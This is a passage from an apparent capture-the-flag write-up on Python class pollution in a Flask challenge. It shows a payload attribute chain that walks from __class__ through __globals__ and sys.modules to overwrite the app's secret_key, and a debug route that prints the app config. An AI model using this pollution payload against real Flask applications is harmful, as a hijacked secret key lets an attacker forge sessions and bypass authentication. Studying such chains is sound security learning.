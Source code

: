 ![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507155751.png)

**When using the following payload, it polluted the Flask's secret key:**
```py
__class__.__init__.__globals__.__spec__.loader.__init__.__globals__.sys.modules.__main__.app.secret_key
```

**Debug route:**
```py
app.secret_key = '(:secret:)'
youShallNotPass = 'no!'
[...]
@app.route('/youShallNotPass')
def index_1():
    print(youShallNotPass)
    print(app.config)
    # print(articles.__class__.__init__.__globals__)
    return redirect('/')
```
